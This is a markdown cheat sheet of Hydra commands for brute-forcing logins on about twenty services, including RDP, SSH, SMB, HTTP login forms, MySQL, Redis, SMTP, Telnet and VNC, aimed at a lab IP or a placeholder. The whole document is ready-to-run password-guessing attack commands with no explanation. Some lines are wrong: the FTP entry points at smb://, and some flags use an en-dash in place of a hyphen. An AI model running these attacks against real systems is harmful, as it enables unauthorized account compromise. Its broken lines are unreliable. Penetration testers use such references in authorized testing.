 

# Hydra Cheat Sheet

##### GUI
`xhydra`

##### RDP
`hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V`

##### SSH
`hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V`

##### SMB
`hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V`

##### FTP
`hydra -l root -P passwords.txt -f smb://10.0.2.5 -V`

##### HTTP Basic Auth
`hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V`

##### HTTP Post
`hydra -L users.txt -P password.txt 10.0.2.5 http-post-form "/path/index.php:name=NAME&password=PASS&enter=Sign+in:Login
name or password is incorrect" -V`

##### IMAP
`hydra -l root -P passwords.txt -f imap://10.0.2.5 -V`

##### MySQL
`hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V`

##### POP
`hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V`

##### Redis
`hydra –P password.txt redis://10.0.2.5 -V`

##### Rexec
`hydra -l root -P password.txt rexec://10.0.2.5 -V`

##### Rlogin
`hydra -l root -P password.txt rlogin://10.0.2.5 -V`

##### RSH
`hydra -L username.txt rsh://10.0.2.5 -V`

##### RSP
`hydra -l root -P passwords.txt <IP> rtsp`

##### SMTP
`hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V`
`hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V`
`Port 587 for SMTP with SSL`

##### Telnet
`hydra -l root -P passwords.txt [-t 32] <IP> telnet`

##### VNC
`hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc`

